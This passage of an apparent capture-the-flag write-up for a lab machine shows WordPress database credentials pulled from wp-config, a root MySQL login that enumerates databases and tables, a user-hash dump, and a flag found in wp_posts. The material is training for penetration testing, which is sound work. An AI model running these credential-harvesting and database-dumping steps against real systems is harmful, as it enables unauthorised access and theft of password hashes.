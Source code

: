     /** MySQL database username */
    define('DB_USER', 'root')

    /** MySQL database password */
    define('DB_PASSWORD', 'R@v3nSecurity')
    # Extra code omitted...
    ```

6. Use the credentials to log into MySQL and dump WordPress user password hashes.

   ```bash
   # Log into MySQL
   michael@target1:~$ mysql -u root -p
   Enter password: R@v3nSecurity
   Welcome to the MySQL monitor. Commands end with ; or \g.
   Your MySQL connection id is 90
   Server version: 5.5.60-0+deb8u1 (Debian)

   mysql> show databases;
   +---------------------------+
   | Database                  |
   +---------------------------+
   | information_schema        |
   | mysql                     |
   | performance_schema        |
   | wordpress                 |
   +---------------------------+
   4 rows in set (0.00 sec)

   -- Switch to wordpress database
   mysql> use wordpress;
   Reading table information for completion of table and column names
   You can turn off this feature to get a quicker startup with -A
   
   Database changed
   mysql> show tables;
   +---------------------------+
   | Tables                    |
   +---------------------------+
   | wp_commentmeta            |
   | wp_comments               |
   | wp_links                  |
   | wp_options                |
   | wp_postmeta               |
   | wp_posts                  |
   | wp_users                  |
   | # Rest omitted...         |
   +---------------------------+
   12 rows in set (0.00 sec)

    mysql> select * from users;
     ```

   ![](Images/mysqldump.png)
    
    ```sql
    -- Find flag3.txt in the blog
    mysql> select * from wp_posts;
    -- Prints a lot of text; scroll through it to find flag3: flag3{afc01ab56b50591e7dccf93122770cd2}
   ```